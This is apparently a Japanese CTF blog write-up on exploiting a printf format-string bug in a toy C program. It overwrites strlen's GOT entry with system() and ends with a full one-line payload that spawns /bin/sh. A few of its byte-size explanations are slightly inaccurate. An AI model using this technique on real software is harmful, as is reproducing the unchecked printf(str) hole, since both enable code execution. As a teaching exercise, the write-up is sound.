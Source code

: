 ```yaml
---
layout: post
title: got overrite
date: 2017-04-21 11:42:35
categories: ctf
---
```


```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
  char str[128];
  fgets(str, 128, stdin);
  printf(str);

  fgets(str, 128, stdin);
  printf("%d\n", strlen(str));
  return 0;
}
```

## 方針

1. printf()でGOTOverWriteをして、strlen()関数をsystem関数に書き換える。
2. 2度目のfgets()でsystem関数の引数を設定
3. strlen(str)でシェルを起動

### GOT領域のアドレスを調べる
```
% readelf -r got

Relocation section '.rel.dyn' at offset 0x31c contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000805 R_386_COPY        0804a040   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x32c contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```
より、
`0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0`

### system関数のアドレスを調べる

```
kobad@kobad-virtual-machine ~/pwn> gdb -q got
Voltron loaded.
Reading symbols from got...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x80484f9
gdb-peda$ r
Starting program: /home/kobad/pwn/got
Breakpoint 1, 0x080484f9 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e41940 <system>

```

より、`0xf7e41940 <system>`

### %nフォーマット指定子

printfが出力している文字数をメモリに書き込む

* %n   - 4 byte
* %hn  - 2 byte
* %hhn - 1 byte

`%n$s` - (スタックの?)n番目の値を%s型で表示

## 解答
strlen = 0x0804a018

system = 0xf7e41940

0x0804a018 - 0x0804a019 にsystemの下位4byte

0x0804a01a - 0x0804a01b にsystemの上位4byteを書き込む

0x1940 = 6464 で\x18\xa0\x04\x08\x1a\xa0\x04\x08この分の8byteを引く

0x1940 - 0x08 = 6456

0xf7e4 = 63460 で0x1940を引く

0xf7e4 - 0x1940 = 56996

スタックには8byteずつ積まれていくので、
最初の8byte(\x18\xa0\x04\x08) が11番目

次の8byte(\x1a\xa0\x04\x08) が12番目

11番目の0x0804a018に0xa1940を書き込み(0x0804a018 == 0xa1940ってこと？)、
12番目の0x0804a01aに0xf7e4を書き込む。

これでstrlenがsystem関数に書き換わった。

\nで次のfgets()へいき、/bin/shを与えて、
strlen(/bin/sh) == system(/bin/sh)なのでshellが起動する

`(echo -e '\x18\xa0\x04\x08\x1a\xa0\x04\x08%6456x%11$hn%56996x%12$hn\n/bin/sh'; cat) | ./got `
